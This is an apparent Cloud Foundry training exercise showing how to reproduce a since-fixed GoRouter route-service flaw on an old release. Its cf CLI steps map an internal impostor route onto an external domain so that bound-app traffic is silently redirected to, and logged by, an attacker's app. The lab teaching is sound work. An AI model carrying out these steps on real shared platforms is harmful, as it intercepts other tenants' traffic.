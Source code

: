 ```yaml
---
layout: single
title: Exploiting Route Services
permalink: /route-services/exploit
sidebar:
  title: "Route Services"
  nav: sidebar-route-services
---
```

## Assumptions
- You have a CF deployed
- You have one
  [proxy](https://github.com/cloudfoundry/cf-networking-release/tree/develop/src/example-apps/proxy)
  app pushed and called appA
- You have one route mapped to appA called APP_A_ROUTE
- You unbound the rate limiter route service from the previous story

## What

In the previous story when you created your own Route Service you ran a command
that looked something like this...

```bash
cf create-user-provided-service MY_SERVICE -r MY_SERVICE_URL
```

The route MY_SERVICE_URL could be inside or outside of your Cloud Foundry.
However, one takes precedence.  Let's say that MY_SERVICE_URL exists inside
*and* outside of your Cloud Foundry. (Before a recent fix) GoRouter would
"hairpin" and always default to the MY_SERVICE_URL that exists *inside* the
Cloud Foundry.

Let's exploit this.

## How

😇 **Pretend that you are an innocent dev**

1. You need to deploy to an older version of routing-release from before this
   attack vector was fixed. Deploy CF with [routing-release
   0.186.0](https://bosh.io/releases/github.com/cloudfoundry-incubator/cf-routing-release?version=0.186.0).

1. Create a Route Service that sends all traffic to whitehouse.gov
   ```bash
   cf create-user-provided-service realwhitehouse -r https://www.whitehouse.gov/
   ```

1. Bind this new Route Service to your APP_A_ROUTE
   ```bash
   cf bind-route-service DOMAIN --hostname HOSTNAME realwhitehouse`
   ```

1. See that when you curl APP_A_ROUTE, you now just get www.whitehouse.gov (I
   don't know why you would want this. But it's an easy way to show this attack
   vector.)

😈 **Pretend that you are a malicious dev**

1. Push an app called fakewhitehouse using `--no-route`

1. Create the domain whitehouse.gov (`cf create-shared-domain --help`)

1. Map the route www.whitehouse.gov to the app fakewhitehouse
   ```bash
   cf map-route fakewhitehouse whitehouse.gov --hostname www
   ```

1. In one terminal, watch the logs for the fakewhitehouseapp (`cf logs --help`)

1. In another terminal curl APP_A_ROUTE

## Expected Results
* You should see in the fakewhitehouse app logs that traffic was redirected to
  fakewhitehouse
* You should see by the response, that traffic was never sent to the real
  whitehouse.gov

## ❓ Questions
* What happened?
* Why is this really, really bad?
* How could you exploit this on a multi-tennant deployment?
* What level of permissions do you need to exploit this?

## Extra Credit
Find the code in GoRouter that let this happen. Maybe start your search
[here](https://github.com/cloudfoundry/gorouter/blob/f6879c04bac67c1e467f14b79496b9832869df91/proxy/round_tripper/proxy_round_tripper.go#L126-L196).

## Resources
* [CF docs - Route Services](https://docs.cloudfoundry.org/services/route-services.html)
* [Rate Limiting Route Service](https://github.com/cloudfoundry-samples/ratelimit-service)

